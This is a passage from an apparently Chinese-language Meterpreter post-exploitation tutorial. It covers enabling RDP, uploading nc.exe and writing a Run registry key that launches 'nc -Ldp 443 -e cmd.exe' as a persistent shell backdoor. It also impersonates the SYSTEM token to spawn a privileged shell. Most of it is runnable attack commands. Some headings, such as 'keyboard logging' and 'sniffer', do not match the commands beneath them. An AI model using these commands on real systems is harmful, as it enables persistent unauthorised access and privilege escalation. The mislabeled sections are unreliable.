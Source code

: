 getgui 系统不推荐，推荐使用 run post/windows/manage/enable_rdp  
getgui 添加用户时，有时虽然可以成功添加用户，但是没有权限通过远程桌面登陆  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f3485ce-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f3485ce-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f42c288-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f42c288-998c-1.png)

2)enable_rdp 脚本

```
reg –h
    -d   注册表中值的数据.    -k   注册表键路径    -v   注册表键名称
    enumkey 枚举可获得的键    setval 设置键值    queryval 查询键值数据
```

脚本位于 / usr/share/metasploit-framework/modules/post/windows/manage/enable_rdp.rb  
通过 enable_rdp.rb 脚本可知：开启 rdp 是通过 reg 修改注册表；添加用户是调用 cmd.exe 通过 net user 添加；端口转发是利用的 portfwd 命令  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f547726-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f547726-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f692b80-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f692b80-998c-1.png)

### 0x09. 键盘记录

```
upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32 #上传nc
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run   #枚举run下的key
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v lltest_nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e cmd.exe' #设置键值
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v lltest_nc   #查看键值
 
nc -v 192.168.159.144 443  #攻击者连接nc后门
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f75ddc6-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f75ddc6-998c-1.png)

### 0x10.sniffer 抓包

```
use incognito      #help incognito  查看帮助
list_tokens -u    #查看可用的token
impersonate_token 'NT AUTHORITY\SYSTEM'  #假冒SYSTEM token
或者impersonate_token NT\ AUTHORITY\\SYSTEM #不加单引号 需使用\\
execute -f cmd.exe -i –t    # -t 使用假冒的token 执行
或者直接shell
rev2self   #返回原始token
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f86f804-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f86f804-998c-1.png)

### 0x11. 注册表操作

1) 注册表基本命令
